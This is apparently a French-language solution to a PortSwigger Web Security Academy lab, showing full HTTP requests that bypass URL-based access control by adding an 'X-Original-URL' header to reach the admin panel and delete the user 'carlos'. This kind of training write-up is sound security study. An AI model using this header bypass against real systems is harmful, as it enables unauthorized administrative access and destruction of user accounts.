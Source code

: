 # Lab

https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented

## Solution

Quand on essaie d'accéder à `/admin` on a l'erreur : `Access denied`.

Si on modifie la requête pour ajouter le header `X-Original-URL: /admin` on a accès à la page d'admin :

```http
GET / HTTP/2
Host: 0ae8009903881d5c8beb738b00ea0021.web-security-academy.net
Cookie: session=E3foAjhzZk8kDsalE8cJdWubW1HcgsuZ
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Original-Url: /admin
```

Maintenant on peut supprimer le compte `carlos` avec la même technique :

```http
GET /?username=carlos HTTP/2
Host: 0ae8009903881d5c8beb738b00ea0021.web-security-academy.net
Cookie: session=E3foAjhzZk8kDsalE8cJdWubW1HcgsuZ
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Original-Url: /admin/delete
```